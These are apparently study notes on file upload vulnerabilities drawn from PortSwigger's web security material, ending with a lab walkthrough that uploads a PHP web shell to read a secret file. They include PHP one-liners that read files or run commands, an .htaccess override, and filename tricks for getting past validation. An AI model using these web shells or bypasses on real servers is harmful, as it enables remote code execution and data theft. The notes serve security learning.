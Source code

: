 # File Upload Vulnerabilities

[Portswigger](https://portswigger.net/web-security/file-upload#what-are-file-upload-vulnerabilities)

## Methodology

Hint: The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping

the following PHP one-liner could be used to read arbitrary files from the server's filesystem `<?php echo file_get_contents('/path/to/target/file'); ?>` 
or `<?php echo system($_GET['command']); ?>` 

### Flawed file input type validation

Example HTML form request:

```
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```

if input validation only applies to the first part of the `form-data` you can change the data types and get execution like that, notice the two different `Content-Type`s above

### Preventing file execution in user-accessible directories

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead

Tip: Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved

### Insufficient blacklisting of dangerous file types

Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on

### Overriding the server configuration

you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type. 

examples:

Apache added as `.htaccess`

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

IIS added as web.config

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### Obfuscating file extensions

steps to obfuscate

- case sensitive bypassing like `exploit.pHp`
- provide multiple extensions `exploit.php.jpg`
- add trailing characters `exploit.php.`
- try using URL encoding, or double URL encoding for dots, forward slashes, and backward slashes `exploit%2Ephp`
  - If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked
- Add semicolons or URL-encoded null byte characters before the file extension `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- try using multibyte unicode characters which may be converted to null bytes and dots after unicode conversion or normalization like: `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path
- other defenses may strip or replace dangerous extensions, do this to maybe avoid: `exploit.p.phphp`

### Flawed validation of the file's contents

Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected

certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata

### Exploiting file upload vulnerabilities without remote code execution

**Uploading malicious client-side scripts**

if you can upload HTML files or SVG images, you can potentially use <script> tags to create stored XSS payloads

**Exploiting vulnerabilities in the parsing of uploaded files**

example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for XXE injection attacks

### Uploading files using PUT

some web servers may be configured to support PUT requests, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface

Tip: You can try sending OPTIONS requests to different endpoints to test for any that advertise support for the PUT method.

## Labs walkthrough

### Remote code execution via web shell upload

Background: 

```
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

- log into your account, notice the option for uploading an avatar image
- upload an arbitrary image and notice that afterwards your preview of your avatar is now displayed on the page
- in `Proxy > HTTP history` click the filter bar to open the `HTTP history filter` window, under the `Filter by MIME type` enable the `images` checkbox then apply the changes
- no in burp history search for the `GET` request to `/files/avatars/<YOUR-IMAGE>` and send it to repeater
- now on your system create a file called exploit.php containing this: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- use the avatar upload functionality to upload the above file, then in the repeater tab change the path to `GET /files/avatars/exploit.php HTTP/1.1` and send
- you will now have carlos' secret in the response

### 































